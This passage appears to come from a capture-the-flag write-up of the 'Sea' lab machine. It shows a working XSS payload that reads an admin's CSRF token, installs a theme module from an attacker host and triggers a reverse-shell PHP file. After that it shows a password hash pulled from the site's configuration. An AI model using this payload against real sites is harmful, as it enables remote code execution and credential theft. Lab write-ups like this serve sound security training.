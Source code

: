 Here's my modified `xss.js` payload:

```javascript
var url = "http://sea.htb/";
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = url+"/?installModule=http://10.10.14.3/main.zip&directoryName=violet&type=themes&token=" + token; var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", url+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "10.10.14.3";
       var port = "443";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", url+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
     }
   };
 }
};
```

This works, although it still complains about the token assignment:

```javascript
Uncaught TypeError: document.querySelectorAll(...)[0] is undefined
    <anonymous> http://10.10.14.3:8000/xss.js:2
```

Note: there's an opportunity to write a cleaner PoC for this.

As the foothold user, credentials are available in `data/database.js`:

```json
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
...
```
